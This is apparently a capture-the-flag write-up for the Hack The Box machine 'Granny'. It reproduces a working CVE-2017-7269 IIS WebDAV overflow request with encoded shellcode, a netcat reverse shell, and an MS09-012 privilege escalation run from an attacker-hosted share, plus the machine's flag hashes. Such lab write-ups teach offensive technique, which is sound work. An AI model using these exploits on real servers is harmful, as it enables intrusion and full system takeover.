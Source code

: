 # Granny
>Author : Xyan1d3
>Date : 28th June 2021
>IP : 10.10.10.15
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jun 29 00:39:02 2021 as: nmap -sC -sV -v -oN nmap/granny 10.10.10.15
Nmap scan report for granny.htb (10.10.10.15)
Host is up (0.075s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Mon, 28 Jun 2021 19:09:19 GMT
|   WebDAV type: Unknown
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Initial FootHold
We look for any possible exploits on the `IIS 6.0` running here.

We search for some possible exploits and find out that the IIS Webserver is vulnerable to `CVE-2017-7269` attack which is a Buffer Overflow on the WebDav protocol and allows URCE.

Exploit Link : https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

Running the Exploit.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/granny]
└──╼ # python2 exploit.py 10.10.10.15 80 10.10.14.11 8888
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖
漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Getting a reverse shell back as the user `NT Authority/Network Service`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/granny]
└──╼ # nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.10.15 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

![[Pasted image 20210629010935.png]]

# Root Escalation
For, Root Escalation We need to know the exact OS version. For, This we do a simple `systeminfo` command and get the output.
```python
C:\Documents and Settings>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 12 Minutes, 50 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
```

Here, We will be exploiting `MS09-012` inorder to get a escalated to `NT Authority/System`.
Exploit Link : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe

We can issue this run this exploit with a single command to be run as an elevated privileges by this exploit.

```python
c:\windows\system32\inetsrv>\\10.10.14.11\magisk\pr.exe whoami
\\10.10.14.11\magisk\pr.exe whoami
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1824 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system      <------ Privilege Escalated
```

We could now chain this exploit with `nc64.exe` to also get a shell as the elevated user.
![[Pasted image 20210629020755.png]]
We get a shell as `NT Authority/SYSTEM`.
![[Pasted image 20210629020834.png]]

**The shell we recieve is fragile as it dies within 30-40seconds.**


## Getting User Flag
We get our user flag by visiting the `C:\Documents and Settings\Lakis\Desktop` directory.
```python
C:\Documents and Settings>cd Lakis\Desktop
cd Lakis\Desktop

C:\Documents and Settings\Lakis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings\Lakis\Desktop

04/12/2017  10:19 PM    <DIR>          .
04/12/2017  10:19 PM    <DIR>          ..
04/12/2017  10:20 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,092,875,776 bytes free

C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
```

## Getting Root Flag
We get our user flag by visiting the `C:\Documents and Settings\Administrator\Desktop` directory.
```python
C:\>cd Documents and Settings\Administrator\Desktop
cd Documents and Settings\Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  05:28 PM    <DIR>          .
04/12/2017  05:28 PM    <DIR>          ..
04/12/2017  10:17 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,092,871,680 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```